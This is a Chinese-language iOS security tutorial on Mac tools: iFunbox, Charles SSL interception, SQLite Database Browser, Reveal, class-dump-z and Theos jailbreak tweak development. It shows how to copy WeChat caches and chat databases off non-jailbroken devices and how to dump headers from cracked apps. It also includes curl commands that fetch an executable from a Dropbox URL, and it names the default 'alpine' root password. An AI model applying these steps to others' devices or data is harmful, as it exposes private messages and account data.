




# 三、Mac 上安装的工具

# Mac 上安装的工具

# 3.1 iOS 文件查看工具 iFunbox

#### 文件系统查看工具

在 iOS 设备上可以安装[iExplorer](http://www.macroplant.com/iexplorer/), [iFunbox](http://www.i-funbox.com/cn/ifunboxmac/), [iTool](http://www.itools.cn/itoolsmacjiantibanxiazai)等工具，可以查看 iOS 应用的文件系统结构。

我们以 iFunbox 为例子，介绍下其用法。

#### 下载安装

从这里[下载](http://www.i-funbox.com/cn/ifunboxmac/)iFunbox 最新的 Mac 版本，然后安装。

打开 iFunbox，点击左边的 User Applications，然后点击你想打开的应用的图标，比如选择陌陌。打开陌陌的文件目录的示意图如下所示：


选择某个应用，比如打开微信目录，到 Libraray\WebChatPrivate\Host 下面找到关于 DNS IP 相关的文件，然后在对应的文件上右键点击，会出现一个选项“Copy to Mac”，能够把对应的文件复制到 Mac 上，然后就可以利用 Mac 上的工具查看这些文件了。

如下图所示：


需要说明一下，我的 iPhone4s 运行的是 iOS 7.1.1，没有越狱，上面图中显示 Jailed 有误；最上面那个 iPad 是越狱过的。

它会记录你使用过的 WIFI，比如其中一个以 WIFI 名称开头的文件：

**7daysinn401.getdns2**

打开 7daysinn401.getdns2 文件，内容如下：

```
[caextshort.weixin.qq.com]
cacheSecs=1800
ip=183.232.98.167
time=1399025111
[calong.weixin.qq.com]
cacheSecs=1800
ip=183.61.38.166
time=1399025111
[cashort.weixin.qq.com]
cacheSecs=1800
ip=183.232.98.167
time=1399025111
[clientip]
cacheSecs=86400000
ip=59.62.239.24
time=1399025111
... 
```

从这个文件夹下面，可以看出微信对 DNS 的 IP 是做了缓存处理的。从另一个角度来看，你也可以说。

类似的，我们还能拷贝出存有聊天记录的 DB 文件，然后利用 SQLite3 工具来分析，这个放到 SQlite3 相关工具的那一节介绍。

可以看到，使用 iFunbox 和 iTools 能够很方便的把 iOS 设备上的文件信息拷贝出来，即使设备没有越狱，也能够拷贝出应用目录下的所有文件。

* * *

[#3 Mac 上需要安装的工具下的更多文章](http://security.ios-wiki.com/issue-3/)

# 3.2 网络流量分析工具 Charles

#### 简介

Charles 是 Mac 下常用的对网络流量进行分析的工具，类似于 Windows 下的[Fiddler](http://www.telerik.com/fiddler)。在开发 iOS 程序的时候，往往需要调试客户端和服务器的 API 接口，这个时候就可以用 Charles，Charles 能够拦截 SSL 请求、模拟慢速网络、支持修改网络请求包并多次发送、能够篡改 Request 和 Response 等强大的功能。下面介绍安装和使用方法。

#### 下载安装

可以从这里[下载](http://www.charlesproxy.com/download/)Charles，有 30 天的试用期。

安装后打开 Charles，试用版本会延迟 10 秒后加载。如下图： 

第一次运行时会弹出如下提示，点击**Grant Privileges**即可。


然后打开菜单**Proxy**的**Proxy Setting**，设置端口为：**8888**。 如下图所示：


#### 支持拦截 SSL 请求

根据官方的[文档](http://www.charlesproxy.com/documentation/faqs/ssl-connections-from-within-iphone-applications/):

###### 真实设备上的设置方法

如果要在真实设备上拦截 SSL 连接，需要安装证书，从[`charlesproxy.com/charles.crt`](http://charlesproxy.com/charles.crt)下载即可。

下载证书之后，双击它，会有如下提示：


点击其中的“**Always Trust**”，然后输入自己的账号密码给它授权。

可以从 Keychain 中查看授权之后的结果： 

###### 模拟器上的设置方法

下载[`www.charlesproxy.com/assets/install-charles-ca-cert-for-iphone-simulator.zip`](http://www.charlesproxy.com/assets/install-charles-ca-cert-for-iphone-simulator.zip)，解压之后双击，就可以在模拟器上拦截 SSL 请求了，甚至都不用重启模拟器。

#### 设置 iOS 设备的代理

首先获取运行 Charles 的 Mac 的 IP 地址，可以打开命令行（Terminal）输入**ifconfig**得到 IP 地址。

或者 spotlight 打开 Network Utility，如下图所示：


然后在 iOS 设备的 WiFi 网络中设置代理，如下图：


确保移动设备和 Mac 在同一个 WIFI 下面。

#### 通过 Charles 分析 iOS 设备的网络请求

按下 Record 按钮，或者 Proxy 菜单里面的 Start Recording 即可对 iOS 设备的网络请求进行监听。

#### Charles 的功能

> *   拦截 SSL 请求
> *   模拟慢速网络
>     菜单**Proxy**中的 Throttle Setting 可以对此进行设置
> *   支持修改网络请求包并多次发送
> *   断点功能
>     Charles 能够断到发送请求前（篡改 Request）和请求后（篡改 Response）
> *   捕获记录控制 可以过滤出关注的请求。菜单**Proxy**中的 Record Setting 可以对此进行设置

暂时不展开介绍这些功能，这里介绍再多都比不上自己运行几分钟的效果好。

#### 小结

Charles 还有很多强大的功能等待大家挖掘，欢迎大家使用下体验下这些功能。

* * *

[#3 Mac 上需要安装的工具下的更多文章](http://security.ios-wiki.com/issue-3/)

# 3.3 SQLite Database Browser 简介

#### 简介

SQLite，是一款轻型的数据库，是遵守 ACID 的关联式数据库管理系统，它的设计目标是嵌入式的，iOS 和 Android 都支持。

如果有很多数据要存在本地，保存在 SQLite 数据库是一个很常见的做法，很多 iOS 应用都是这样做的。

在 iOS 逆向工程中，有时候需要把 iOS 设备中的 SQLite 数据库文件拷贝到 Mac 上，然后用工具打开，常用的有 SQLite Database Browser 和 SQLiteManager。

#### 下载 SQLite Database Browser

SQLite Database Browser 可以从这里[下载](http://sourceforge.net/projects/sqlitebrowser/)。

下载之后安装运行，如下图所示：


#### SQLite Database Browser 用法

用前面介绍的工具 iFunbox(如果你不知道这个工具，请阅读本系列前面的文章)从微信的目录下拷贝出一个 SQLite 数据库文件：


用 SQLite Database Browser 打开之后，点击 Table 可以得到一个下拉列表，显示所有的 Table，如下图所示：


选择其中的 Friend 这个表，然后点击第一个 tab**Database structure**可以查看表结构，第二个 tab**browse data**可以查看保存的数据，如下图所示：



其中的 UsrName 这一列就可以用来添加好友了，比如在微信中添加好友的输入框中输入**gh_62efaa4930af**就可以添加李开复。

点击第三个 Tab，可以输入需要执行 SQL 语句。


#### 小结

本文简单介绍了 SQLite 工具 SQLite Database Browser 的用法。SQLiteManager 也可以完成类似的功能，读者可以下载体验下这个工具。

可以看出，应用保存在 iOS 设备上的 SQLite 数据，是很容易被他人获取的，设备无需越狱。

* * *

[#3 Mac 上需要安装的工具下的更多文章](http://security.ios-wiki.com/issue-3/)

# 3.4 Reveal：分析 iOS UI 的利器

### Reveal 简介

Reveal 是分析 iOS 应用 UI 的利器：

> Reveal 能够在运行时调试和修改 iOS 应用程序。它能连接到应用程序，并允许开发者编辑各种用户界面参数，这反过来会立即反应在程序的 UI 上。就像用 FireBug 调试 HTML 页面一样，在不需要重写代码、重新构建和重新部署应用程序的情况下就能够调试和修改 iOS 用户界面。--[InfoQ](http://www.infoq.com/cn/news/2013/07/debug_ios_apps_with_reveal)

Reveal 运行在 Mac 上，目前的最新版本是 1.0.4，可以从这里[下载](http://revealapp.com/)，要求 Mac OS X 10.8 及以上，iOS 6 以及以上。

现在正式版本可以下载试用 30 天，试用期后需要购买。有需要的话可以买一个，功能相当强大。

### Reveal 的功能

#### 查看 iOS 应用的 View 层次结构

使用 Reveal 的效果如图： 

图中最左侧可以看到 View 的名称，中间是 View 的 3D 展示效果，可以非常清楚的看到 View 的层次结构。

#### 修改参数后无需编译即可看到效果

Reveal 另一个非常有用的功能就是动态修改参数，无需编辑动态查看效果。如下图所示：


显示出 UILabel 和 UIView 的关键属性值，更重要的是，这些都可以动态修改，比如我们改成**测试**，如下图： 

把其中的图片的宽度从 80 改成 50，改之后的效果如图：


下图箭头所指向的对方都可以动态修改。


关于 Reveal 的更多功能，欢迎大家去探索并分享。下面介绍 Reveal 如何集成到 iOS 应用中去调试。

### Reveal 的 3 种加载方法

#### 加载方法（1）

下载 Reveal 之后打开，在菜单中的 Help 中可以找到集成到 Xcode 项目的方法，这里不再赘述。

#### 加载方法（2）

[Integrating Reveal without modifying your Xcode project](http://blog.ittybittyapps.com/blog/2013/11/07/integrating-reveal-without-modifying-your-xcode-project/)
[reveal: 檢視 iOS app 的 view 結構](http://adison.logdown.com/posts/159350-reveal-check-the-ios-app-view-structure)。
给出了如何不用修改 Xcode 工程就可以加载使用 Reveal 的方法。

在当前用户目录新建一个文件.lldbinit，位于~/.lldbinit，LLDB 每次启动的时候都会加载这个文件。

在.lldbinit 中输入如下内容：

```
command alias reveal_load_sim expr (void*)dlopen("/Applications/Reveal.app/Contents/SharedSupport/iOS-Libraries/libReveal.dylib", 0x2);

command alias reveal_load_dev expr (void*)dlopen([(NSString*)[(NSBundle*)[NSBundle mainBundle] pathForResource:@"libReveal" ofType:@"dylib"] cStringUsingEncoding:0x4], 0x2);

command alias reveal_start expr (void)[(NSNotificationCenter*)[NSNotificationCenter defaultCenter] postNotificationName:@"IBARevealRequestStart" object:nil];

command alias reveal_stop expr (void)[(NSNotificationCenter*)[NSNotificationCenter defaultCenter] postNotificationName:@"IBARevealRequestStop" object:nil]; 
```

上述文件创建了 4 个命令：

```
reveal_load_sim,reveal_load_dev, reveal_start 和 reveal_stop 
```

> *   `reveal_load_sim` 这个只在 iOS 模拟器上有效。它从 Reveal 的应用程序 bundle 中找到并加载 libReveal.dylib（请确保你把 Reveal 安装到了系统的 Application 文件夹，如果你换地方了，你修改上述的文件）。
>     
>     
> *   `reveal_load_dev` 这个命令在 iOS 设备和模拟器上都有效。**不过，它需要你在 Build Phase 中的的 Copy Bundle Resources 中加上 libReveal.dylib，请确保没有放到 Link Binary With Libraries 这个地方**。
>     
>     
> *   `reveal_start` 这个命令发出一个通知启动 Reveal Server。
>     
>     
> *   `reveal_stop` 这个命令发出一个通知停止 Reveal Server。

请注意：只有在 iOS 应用发出了 UIApplicationDidFinishLaunchingNotification 通知之后，比如应用的 delegate 已经处理过 application::didFinishLaunchingWithOptions:之后才能调用上面的`reveal_load_*`命令，然后再调用 reveal_start

在设备起来之后，你就可以断下应用，在 LLDB 提示框中输入上述的命令了。



上述的过程还需要手动输入，下面介绍如何设置条件断点，使得 Reveal 在启动之后自动加载。

在你的应用的 application:didFinishLaunchingWithOptions 中的代码出加一个断点，然后右键，选择编辑断点。

输入如下图一样的命令：


重新运行下应用，如果控制台输出了如下信息：

```
 Reveal server started. 
```

说明 Reveal 已经自动成功加载。

#### 加载方法（3）

[Reveal 查看任意 app 的高级技巧](http://c.blog.sina.com.cn/profile.php?blogid=cb8a22ea89000gtw)介绍了如何在越狱设备上查看任意 app 的技巧：

*   iOS 设备需要越狱，iOS6 以上
*   安装 Reveal，越狱设备与安装 Reveal 的 Mac 在同一 wifi 内。
*   点击菜单 Help / Show Reveal Library in Finder，获取 libReveal.dylib
*   将 libReveal.dylib 上传到设备的/Library/MobileSubstrate/DynamicLibraries
*   编辑并上传一个 libReveal.plist，格式和/Library/MobileSubstrate/DynamicLibraries 下面的其他 plist 类似，其中的 filter 的 bundle 写要查看的 iOS App 的 bundle Id。 格式如下：

    { Filter = { Bundles = ( "你要查看的 app 的 bundle Id" ); }; }

*   重启 iOS 设备

### 小结

本文简要介绍了 Reveal 的功能和几种加载方法。欢迎大家去体验下 Reveal 的强大功能。最后，可以看看关于 Reveal 的 tips:[Reveal tips: Navigation](http://blog.ittybittyapps.com/blog/2013/09/26/reveal-shortcuts-and-tips/)。

* * *

[#3 Mac 上需要安装的工具下的更多文章](http://security.ios-wiki.com/issue-3/)

# 3.5 使用 class-dump-z 获得 iOS 应用程序的类信息

#### class-dump-z 简介

class dump 是一个命令行工具，它可以 dummp 出破解之后的 iOS 二进制文件的头文件信息（后面我们会介绍破解 iOS 应用的工具 Clutch, 这个工具需要安装在 iOS 设备上，所以放在下一章介绍）。

这些信息与 otool -ov 命令提供的信息是一样的，但它更紧凑，更易读。

#### 为什么要使用 class-dump

你可以看到闭源应用程序，框架(framework)和软件包(bundle)的头文件，了解它内部是如何设计的。

#### 下载与安装

可以从这里[`networkpx.googlecode.com/files/class-dump-z_0.2a.tar.gz`](http://networkpx.googlecode.com/files/class-dump-z_0.2a.tar.gz)下载。

执行如下命令解压文件并把可执行程序拷贝到/usr/bin 目录：

> *   **tar -zxvf class-dump-z_0.2a.tar.gz**
> *   **sudo cp mac_x86/class-dump-z /usr/bin/**

如下图所示：


现在，在命令行输入 class-dump-z，你可以得到如下的提示信息：

```
ZPs-MBP:class-dump-z admin$ class-dump-z

Usage: class-dump-z [<options>] <filename>

where options are:

  Analysis:
    -p         Convert undeclared getters and setters into properties (propertize).
    -h proto   Hide methods which already appears in an adopted protocol.
    -h super   Hide inherited methods.
    -y <root>  Choose the sysroot. Default to the path of latest iPhoneOS SDK, or /.
    -u <arch>  Choose a specific architecture in a fat binary (e.g. armv6, armv7, etc.)

  Formatting:
    -a         Print ivar offsets
    -A         Print implementation VM addresses.
    -k         Show additional comments.
    -k -k      Show even more comments.
    -R         Show pointer declarations as int *a instead of int* a.
    -N         Keep the raw struct names (e.g. do no replace __CFArray* with CFArrayRef).
    -b         Put a space after the +/- sign (i.e. + (void)... instead of +(void)...).
    -i <file>  Read and update signature hints file.

  Filtering:
    -C <regex> Only display types with (original) name matching the RegExp (in PCRE syntax).
    -f <regex> Only display methods with (original) name matching the RegExp.
    -g         Display exported classes only.
    -X <list>  Ignore all types (except categories) with a prefix in the comma-separated list.
    -h cats    Hide categories.
    -h dogs    Hide protocols.

  Sorting:
    -S         Sort types in alphabetical order.
    -s         Sort methods in alphabetical order.
    -z         Sort methods alphabetically but put class methods and -init... first.

  Output:
    -H         Separate into header files
    -o <dir>   Put header files into this directory instead of current directory. 
```

上面的-H 命令可以把头文件信息放到各自的文件中，-o 后面可以指定一个存放头文件的目录。

我们用这两个命令来到处应用的头文件信息。

> *   class-dump-z -H AppName/Payload/AppName.app/AppName -o storeheaders

再一次提醒一下，这里的应用是用 Clutch 破解之后的，如果直接用 class-dump-z dump 从 App Store 下载的二进制文件，只能得到加密后的信息。

下一章 **iOS 设备上的工具** 会详细介绍 Clutch 的用法

#### 获得 iOS 应用程序的类信息

之前我翻译过一篇文章[iOS 应用程序安全(2)-获得 iOS 应用程序的类信息](http://wufawei.com/2013/11/ios-application-security-2/)，里面分别以 Apple 自带的地图和从 App Store 下载的 Yahoo 天气为例，介绍了 class-dump-z 获得 iOS 应用程序的详细过程。

#### 小结

本文简要介绍了 class-dump-z 的作用，下载、安装和具体用法。

* * *

* * *

[#3 Mac 上需要安装的工具下的更多文章](http://security.ios-wiki.com/issue-3/)

# 3.6 Theos：越狱程序开发框架

开发越狱程序和日常开发的 iOS 程序很相似，不过，越狱程序能做更强大的事情。你的设备越狱之后，你就能够 hook 进 Apple 提供的几乎所有的 class，来控制 iPhone/iPad 的功能。

@DHowett 的[Theos](http://iphonedevwiki.net/index.php/Theos/Getting_Started)大幅简化了编写越狱程序的流程。DHowett 介绍了如何再 Mac 和 Linux 上开发 iOS 越狱程序，本文将只介绍如何在 Mac 上开发。

本文将一步步介绍写越狱程序需要的工具，在这个过程中介绍 Theos 的用法和功能。

### 越狱程序开发需要安装的工具

#### 第 1 步 安装 iOS SDK

从[`developer.apple.com/devcenter/ios/index.action`](http://developer.apple.com/devcenter/ios/index.action)去下载安装最新的 Xcode，里面自带有最新的 iOS SDK。

#### 第 2 步 设置环境变量

建议把 theos 安装在/opt/theos， 打开命令行然后输入

```
export THEOS=/opt/theos 
```

通过在命令行执行 echo $THEOS 可以看到这个变量是否正确设置。如果是这样设置，每次你打开命令行都需要重新设置一下，你也可以编辑/etc/profile 文件，把上面那一行添加进去，这样不用每次打开命令行都重新设置一次。

#### 第 3 步 安装 Theos

在命令行中输入：

```
svn co http://svn.howett.net/svn/theos/trunk $THEOS 
```

会把 theos 下载到 Step2 所设置的目录中，会提示你输入 admin 的密码。

#### 第 4 步:下载 ldid

ldid 的作用是模拟给 iPhone 签名的流程，使得你能够在真实的设备上安装越狱的 apps/hacks。

你可以在很多地方都找得到这个 tool，不过 DHowett 在他的 dropbox 中给大家存了一份。

通过下面的命令下载：

```
curl -s http://dl.dropbox.com/u/3157793/ldid > ~/Desktop/ldid
chmod +x ~/Desktop/ldid
mv ~/Desktop/ldid $THEOS/bin/ldid 
```

先是下载到桌面，然后改执行权限，然后移动到指定目录。

你可以尝试下看看直接下载是否 ok：

```
curl -s http://dl.dropbox.com/u/3157793/ldid > $THEOS/bin/ldid; chmod +x $THEOS/bin/ldid 
```

由于伟大的墙，下载这个你需要自备梯子。

注：我把这个工具下载下来放到了[`pan.baidu.com/s/1kTHoIGZ`](http://pan.baidu.com/s/1kTHoIGZ)，也可以从这里下载，然后给它添加执行权限（chmod +x ldid）并移动到$THEOS/bin/这个目录下。

#### 第 5 步:安装 dkpg

dpkg 能够把你的 app 打包成 Debian Package,可以分发的 Cydia 的存储目录中。

在命令行下执行

```
brew install dpkg. 
```

也可以用另一个工具[Cakebrew](https://www.cakebrew.com/)来安装 dpkg。

#### 第 6 步：创建新项目

theos 使用一个叫做 nic(new instance tool)的工具来创建新的工程。执行下面的命令：

```
$THEOS/bin/nic.pl 
```

就可以开始创建。下面是一个创建 jailbroken 应用程序的例子：

```
author$ $THEOS/bin/nic.pl
NIC 1.0 - New Instance Creator
——————————
  [1.] iphone/application
  [2.] iphone/library
  [3.] iphone/preference_bundle
  [4.] iphone/tool
  [5.] iphone/tweak
Choose a Template (required): 1
Project Name (required): firstdemo
Package Name [com.yourcompany.firstdemo]: 
Author/Maintainer Name [Author Name]: 
Instantiating iphone/application in firstdemo/…
Done. 
```

简单这样的命令，就创建了一个基本的越狱程序 firtdemo,它除了常规的文件外，还包含了 Makefile，以及 control 文件（当在 Cydia 中时，显示的关于程序的信息）。

### 构建和部署

下面将介绍如何创建一个 jailbroken app/tweak/hack 的工具，然后编译和上传到设备的方法。

下面是一个创建 jailbroken 应用程序的例子：

```
author$ $THEOS/bin/nic.pl
NIC 1.0 - New Instance Creator
——————————
  [1.] iphone/application
  [2.] iphone/library
  [3.] iphone/preference_bundle
  [4.] iphone/tool
  [5.] iphone/tweak
Choose a Template (required): 1
Project Name (required): firstdemo
Package Name [com.yourcompany.firstdemo]: 
Author/Maintainer Name [Author Name]: 
Instantiating iphone/application in firstdemo/…
Done. 
```

这将会创建一个新的目录 firstdemo，并且有以下文件。

1.  control: 包含 applicaton/tweak 的信息，当你从 Cydia 安装时，你可以看到这些信息，包括名字，作者，版本，等等。
2.  main.m，这个不用多说。
3.  [applicationName]Application.mm:appdelegate 文件。
4.  Makefile：包含必要的编译命令
5.  Resources：包含 info.plist 文件等
6.  RootViewController.h/mm

#### **Makefile**

这里重点介绍下：

```
include theos/makefiles/common.mk  
APPLICATION_NAME = firstdemo  
[applicationName]_FILES = main.m firstdemoApplication.mm RootViewController.mm  
[applicationName]_FRAMEWORKS = UIKit Foundation QuartzCore AudioToolbox CoreGraphics 
```

#### **设置环境变量**

打开命令行然后输入

```
export THEOS=/opt/theos/
export SDKVERSION=7.1
export THEOS_DEVICE_IP=xxx.xxx.xxx.xxx 
```

第二行定义你当前的 SDK 版本，我本机装的是 7.1，最后一行定义你的设备的 ip 地址。

#### **构建工程**

**第一个命令:make**

```
$ make
Making all for application firstdemo…
 Compiling main.m…
 Compiling firstdemoApplication.mm…
 Compiling RootViewController.mm…
 Linking application firstdemo…
 Stripping firstdemo…
 Signing firstdemo… 
```

注意，如果出现如下的错误：

> libsubstrate.dylib, missing required architecture armv7 in file /Users/mcmillen/test/theos/lib/libsubstrate.dylib (2 slices)

解决方法：

下载[libsubstrate.dylib](http://pan.baidu.com/s/1o6ocwXk)，然后 copy 到/opt/theos/lib

**第二个命令：make package**

```
make package
Making all for application firstdemo…
make[2]: Nothing to be done for ‘internal-application-compile’.
Making stage for application firstdemo…
 Copying resource directories into the application wrapper…
dpkg-deb: building package ‘com.yourcompany.firstdemo’ in ‘/Users/author/Desktop/firstdemo/com.yourcompany.firstdemo_0.0.1-1_iphoneos-arm.deb’. 
```

**第三个命令：make install**

```
$ make package install
Making all for application firstdemo…
make[2]: Nothing to be done for `internal-application-compile’.
Making stage for application firstdemo…
 Copying resource directories into the application wrapper…
dpkg-deb: building package ‘com.yourcompany.firstdemo’ in ‘/Users/author/Desktop/firstdemo/com.yourcompany.firstdemo_0.0.1-1_iphoneos-arm.deb’.
...
root@ip’s password: 
... 
```

这个过程会提示你输入几次 iphone 或者 ipad 的密码。默认是:**alpine**.

[**make install 报错解决方法**](http://stackoverflow.com/questions/21013325/dpkg-error-contains-ununderstood-data-member)

如果执行 make install 提示错误：

```
 make: *** [internal-install] Error 1 
```

找到文件**$THEOS/makefiles/package/deb.mk**，把其中的

```
$(ECHO_NOTHING)COPYFILE_DISABLE=1 $(FAKEROOT) -r dpkg-deb -b "$(THEOS_STAGING_DIR)" "$(_THEOS_DEB_PACKAGE_FILENAME)" $(STDERR_NULL_REDIRECT)$(ECHO_END) 
```

替换为：

```
$(ECHO_NOTHING)COPYFILE_DISABLE=1 $(FAKEROOT) -r dpkg-deb -Zgzip -b "$(THEOS_STAGING_DIR)" "$(_THEOS_DEB_PACKAGE_FILENAME)" $(STDERR_NULL_REDIRECT)$(ECHO_END) 
```

然后再次执行 make install 就可以正常安装了。

### 你的第一个 Tweak 程序

这一节将介绍如何给任意的 Apple 提供的方法打补丁。在这个 demo 中，我们将要 hook Springboard 的 init 方法，然后在 iphone 启动时显示一个 UIAlertView。这个 demo 不是最酷的，但是这里所使用的方法和模式，可以用来给任何 class 的任何 method 打补丁。

#### **1 准备工作**

你首先还需要下载 libsubstrate.dylib，然后 copy 到/opt/theos/lib

[下载 libsubsrate.dylib](http://pan.baidu.com/s/1o6ocwXk)

#### **2 iOS 头文件**

很可能 theos 本身就自带了你所需要的头文件，但是，如果你编译程序的时候提示你头文件相关的问题，那你就需要准备相关的头文件了。

下载 iphoneheader 到/opt/theos/include：

```
git clone https://github.com/rpetrich/iphoneheaders.git
mv iphoneheaders/* theos/include/ 
```

上述操作之后截图如下：


从 OSX library 中拷贝 IOSurfaceAPI.h 到 theos/include/IOSurface 目录下：

```
 cp /System/Library/Frameworks/IOSurface.framework/Headers/IOSurfaceAPI.h theos/include/IOSurface 
```

给 IOSurfaceAPI.h 打补丁，注释掉 IOSurfaceCreateXPCObject 和 IOSurfaceLookupFromXPCObject。

注释后的结果是：

```
/* This call lets you get an xpc_object_t that holds a reference to the IOSurface.
   Note: Any live XPC objects created from an IOSurfaceRef implicity increase the IOSurface's global use
   count by one until the object is destroyed. */

/*xpc_object_t IOSurfaceCreateXPCObject(IOSurfaceRef aSurface) XPC_RETURNS_RETAINED
    IOSFC_AVAILABLE_STARTING(__MAC_10_7, __IPHONE_NA);*/

/* This call lets you take an xpc_object_t created via IOSurfaceCreatePort() and recreate an IOSurfaceRef from it. */

/*IOSurfaceRef IOSurfaceLookupFromXPCObject(xpc_object_t xobj) CF_RETURNS_RETAINED
    IOSFC_AVAILABLE_STARTING(__MAC_10_7, __IPHONE_NA);
*/ 
```

#### **3 创建项目**

执行 $THEOS/bin/nic.pl

```
author$ $THEOS/bin/nic.pl
NIC 1.0 - New Instance Creator
——————————
  [1.] iphone/application
  [2.] iphone/library
  [3.] iphone/preference_bundle
  [4.] iphone/tool
  [5.] iphone/tweak 
```

这里，需要选择 5，如下：

```
NIC 1.0 - New Instance Creator
——————————
  [1.] iphone/application
  [2.] iphone/library
  [3.] iphone/preference_bundle
  [4.] iphone/tool
  [5.] iphone/tweak
Choose a Template (required): 5
Project Name (required): iossecurity 
Package Name [com.yourcompany.iossecurity]: 
Author/Maintainer Name [Ted]: 
MobileSubstrate Bundle filter [com.apple.springboard]: 
Instantiating iphone/tweak in iossecurity/…
Done. 
```

#### **4 The Tweak File**

一旦你创建了项目，你会发现 Theos 生成了一个叫做 Tweak.xm 的文件，这是个特殊的文件，hook 的相关代码就将写在这个文件。

默认的所有代码都是被注释起来的。

**%hook 和 %end**

```
%hook Springboard
// overwrite methods here
%end 
```

%hook 后面跟的是你要 hook 的类名称，以一个%end 结尾。上面的代码说明我们会 hook Springboard 类里面的 method。

**%orig**

当在一个 method 内部的时候，%orig 会调用原来的方法（original method)。

你甚至可以给原来的 method 传递参数，例如：%orig(arg1,arg2)。如果你不调用%orig，原来的方法就绝对不会被调用。

所以，如果你 hook 了 SpringBoard 的 init 方法，但是没有调用%orig。那么你的 iphone 就将不可用，除非你通过 ssh 删除你的 app。

#### 5 Hooking into Springboard

打开 Tweak.xm，然后加上代码：

```
#import <SpringBoard/SpringBoard.h>

%hook SpringBoard

-(void)applicationDidFinishLaunching:(id)application {
%orig;

UIAlertView *alert = [[UIAlertView alloc] initWithTitle:@"Welcome" 
message:@"Welcome to your iOS Device Ted!" 
delegate:nil 
cancelButtonTitle:@"security.ios-wiki.com" otherButtonTitles:nil];

[alert show];
[alert release];

}

%end 
```

首先，import 头文件 Springboard.h，这可以让我们可以访问 springboard。然后，我们告诉预处理器 hook Springboard class。

这里覆盖的 method 是 applicationDidFinishLaunching：方法，当 Springboard 启动时，就会被执行。注意我们调用了%orig。

最后，显示一个 UIAlertView。

#### 6 添加 Framework

如果你直接编译，，会得到如下的提示信息：

```
Tweak.xm: In function ‘objc_object* $_ungrouped$SpringBoard$init(SpringBoard*, objc_selector*)’:
Tweak.xm:6: error: declaration of ‘objc_object* self’ shadows a parameter 
```

那是因为我们依靠 UIKit framework 来显示 alert,所以需要在 Makefile 中加上如下一行：

```
iossecurity_FRAMEWORKS = UIKit 
```

如下图：


#### 7 Building, Packaging, Installing.

在前面的系列中介绍了如何编译，打包和安装，依次执行下面的命令即可。

